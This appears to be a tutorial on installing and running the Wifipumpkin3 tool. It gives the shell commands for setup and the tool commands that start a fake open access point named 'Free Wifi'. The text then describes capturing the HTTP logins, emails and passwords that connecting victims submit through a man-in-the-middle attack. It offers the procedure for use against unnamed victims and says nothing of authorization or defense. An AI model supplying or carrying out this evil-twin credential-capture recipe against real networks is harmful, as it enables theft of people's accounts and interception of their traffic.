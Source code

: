 ### Wifipumpkin3 Installation and Setup:

Before we can use this tool, we need to install the dependent packages for this to work use the following command to do that.

``` 
sudo apt-get update 
apt install libssl-dev libffi-dev build-essential
```

Now that we have installed the dependencies, we need to download the tool from GitHub and change the directory to the wifipumpkin3 and install the python dependency.

```
git clone https://github.com/P0cL4bs/wifipumpkin3.git  
cd wifipumpkin3
apt install python3-pyqt5
apt install hostapd                                                    
python3 -c "from PyQt5.QtCore import QSettings; print('done')"
```

As we are done with that we would like to install the setup file which came with wifipumpkin3, this python file will install all the other dependencies that this tool will need to function properly.

```python3 setup.py install```

Now that we have installed all the tools perfectly let’s use wifipumpkin, the first thing we would do today is to create a fake AP with whatever name you want, with this access point we would wait for a victim to connect to the network and also do a MITM attack to sniffing packets. we will try to sniff out the post request that may contain users’ credentials like email and password, this would only work with HTTP. Let’s go in to see how this works.

WP3 Setup:

    Command      Description
    -------      -----------
    ap           show all variable and status from AP
    clients      show all connected clients on AP


```
wifipumpkin3
set interface wlan0
set ssid Free Wifi
set proxy noproxy
ignore pydns_server
start
```

After starting the Fake access point, we can see that some protocols have also been started these will help in the capturing of sensitive information which is passed over the network
From our second device, we will find the SSID for bogus AP, when the victim connects to this he will receive malicious IP from our DHCP server.

From our second device, we could go to an HTTP page that doesn’t have SSL (secured socket layer ) with this whatever information like email, username, or password entered we would be able to view the text entered by the victim.

Wifipumkin captures the traffic and the credentials which were entered by the victim
